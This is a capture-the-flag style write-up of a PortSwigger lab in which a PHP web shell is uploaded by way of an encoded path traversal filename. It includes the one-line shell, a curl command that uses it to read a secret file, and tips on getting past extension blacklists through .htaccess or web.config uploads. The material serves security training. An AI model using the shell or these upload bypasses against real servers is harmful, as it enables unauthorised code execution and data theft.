 # 1f3 - Web shell upload via Path Traversal \[PortSwigger Lab]

This lab contains a vulnerable image upload function. The server is configured to prevent execution of user-supplied files, but this restriction can be bypassed by exploiting a secondary vulnerability.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret.

You can log in to your own account using the following credentials: `wiener:peter`

### Solution:

So, User's page includes avatar upload function. just to upload `mal.php` with contents `<?php echo system($_GET['command']); ?>` will just return plaintext version of this script.

<figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption><p>calling mal.php from url</p></figcaption></figure>

it also seems that uploading `mal.php` with path traversal `../mal.php` still uploads it to `files/avatars/mal.php`, which means that it's cutting traversals in path.

<figure><img src="../../../.gitbook/assets/image (9).png" alt=""><figcaption><p>calling mal.php file from API</p></figcaption></figure>

So all I had to do was obfuscating the path traversal to `..%2Fmal.php` which is same as `../mal.php`.

after changing a filename to this parameter and uploading it we get the following response

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption><p>obfuscated mal.php filename bypassed defense mechanisms</p></figcaption></figure>

so the file is uploaded to `files/mal.php`

now we can just call this script using \[\[1a1b - cURL|cURL]] to get the response

```
curl -X GET "https://0a3c00e4049c901c802ee994009d003a.web-security-academy.net/files/mal.php?command=cat%20/home/carlos/secret"


jziR****************************jziR****************************
```

The secret: jziR\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*

***

Another obvious way to prevent users from uploading certain files is to blacklist these file extensions like `php`. This practice is still flawed since its difficult to explicitly blacklist every file that can be executed. such blacklists can be sometimes bypassed using lesser known, alternative file extensions like `.php5` or `.shtml` and so on.

As previously mentioned, some servers won't let certain files to execute unless they are explicitly configured to do that.

As an example, before Apache server lets PHP files to execute, a developer might put something like the following in their `/etc/apache2/apache2.conf` file:

```
LoadModule php_module /usr/lib/apache2/modules/libphp.so
	AddType application/x-httpd-php .php
```

Many servers also allow developers to create special config-files within individual directories to override global configuration parameters. Apache-specific servers for example will load directory-specific configuration from a file called `.htaccess`.

Similarly, directory-specific configuration can be made on IIS server using `web.config` file. This might include directives such as the following, where server only allows JSON files to be served to users:

```
<staticContent> 
	<mimeMap fileExtension=".json" mimeType="application/json" /> 
	</staticContent>
```

Web servers use these kinds of configuration files when present, but you're not normally allowed to access them using HTTP requests.

However, you may occasionally find servers that fail to stop you from uploading your own malicious configuration file. In this case, even if the file extension you need is blacklisted, you may be able to trick the server into mapping an arbitrary, custom file extension to an executable type.
